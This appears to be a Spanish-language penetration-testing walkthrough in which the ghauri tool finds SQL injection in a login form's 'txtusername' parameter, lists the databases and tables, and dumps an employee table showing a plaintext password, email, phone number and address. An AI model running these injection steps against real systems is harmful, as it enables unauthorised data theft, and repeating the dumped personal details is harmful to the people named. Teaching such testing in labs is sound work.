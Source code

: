 # Intrusión

Capturamos la petición con `Caido` o `Burp Suite` y lanzamos `ghauri` en busca de alguna vulnerabilidad **SQLi:**

```bash
$ ghauri -r req.txt
Ghauri identified the following injection point(s) with a total of 53 HTTP(s) requests:
---
Parameter: txtusername (POST)
```

Vemos que existe una vulnerabilidad **SQLi**. Le pedimos que nos de las BBDD existentes/

```bash
$ ghauri -r req.txt --dbs
available databases [2]:
[*] information_schema
[*] pms_db
```

En este caso nos interesa la base de datos **pms_db**. Le pedimos las tablas de esa BBDD:

```bash
$ ghauri -r req.txt -D pms_db --tables
Database: pms_db
[3 tables]
+-------------+
| users       |
| tblemployee |
| tblleave    |
+-------------+
```

Ahora vamos a dumpear las tablas **tblemployee** y **users**: 

```bash
$ ghauri -r req.txt -D pms_db -T tblemployee --dump
Database: pms_db
Table: tblemployee
[1 entries]
+----+---------------------+----------------+-------------+------+-------------------------------+-----------+-------------+-------------+---------------+---------+---------------+------------------+--------------+-----------+--------+--------------+---------------------------+
| id | employeeID          | fullname       | password    | sex  | email                         | dob       | phone       | address     | qualification | dept    | employee_type | date_appointment | basic_salary | gross_pay | status | leave_status | photo                     |
+----+---------------------+----------------+-------------+------+-------------------------------+-----------+-------------+-------------+---------------+---------+---------------+------------------+--------------+-----------+--------+--------------+---------------------------+
| 7  | STAFF/FKP/2023/4860 | Ndueso Akpabio | escobar2012 | Male | newleastpaysolution@gmail.com | 12/9/1980 | 08067361023 | 12 Ikono rd | Msc           | Bursary | Academic      | 9/9/2023         | 21000        | 25000     | 1      | Pending      | uploadImage/Profile/2.png |
+----+---------------------+----------------+-------------+------+-------------------------------+-----------+-------------+-------------+---------------+---------+---------------+------------------+--------------+-----------+--------+--------------+---------------------------+
```
